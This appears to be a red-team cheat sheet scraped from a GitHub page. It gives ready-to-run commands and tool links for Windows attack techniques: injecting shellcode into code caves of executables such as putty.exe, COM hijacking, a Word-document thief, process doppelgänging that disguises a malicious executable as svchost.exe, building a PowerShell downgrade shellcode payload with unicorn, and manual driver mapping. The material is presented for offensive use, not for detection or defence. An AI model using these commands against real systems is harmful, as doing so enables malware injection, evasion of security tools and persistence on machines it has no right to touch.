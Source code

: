 
### Code Cave

```
search ~/Downloads/putty.exe
```

or

```
CaveCarver.exe path_to_exe path_to_shellcode
```
https://github.com/XaFF-XaFF/CaveCarver
https://github.com/Antonin-Deniau/cave_miner


### COM Hijacking

```
$keys = Get-CLSIDRegistryKeys -RegHive HKCR 
$results = $keys | % {$guid = Extract-GUIDFromText $_; Map-GUIDToDLL -guid $guid 2> $null }
```
https://github.com/nccgroup/acCOMplice

or

```
Invoke-WordThief
```

https://github.com/danielwolfmann/Invoke-WordThief



### Process Doppelgänging

```
processrefund.exe svchost.exe MalExe.exe
```

https://github.com/Spajed/processrefund


### PowerShell Downgrade Attack

```
python unicorn.py <path_to_shellcode.txt>: shellcode hta
```
``
https://github.com/trustedsec/unicorn


### Manually Map A Driver


```
VirtualAllocEx->WriteProcessMemory->MmMapIoSpace
```

https://github.com/DarthTon/Blackbone
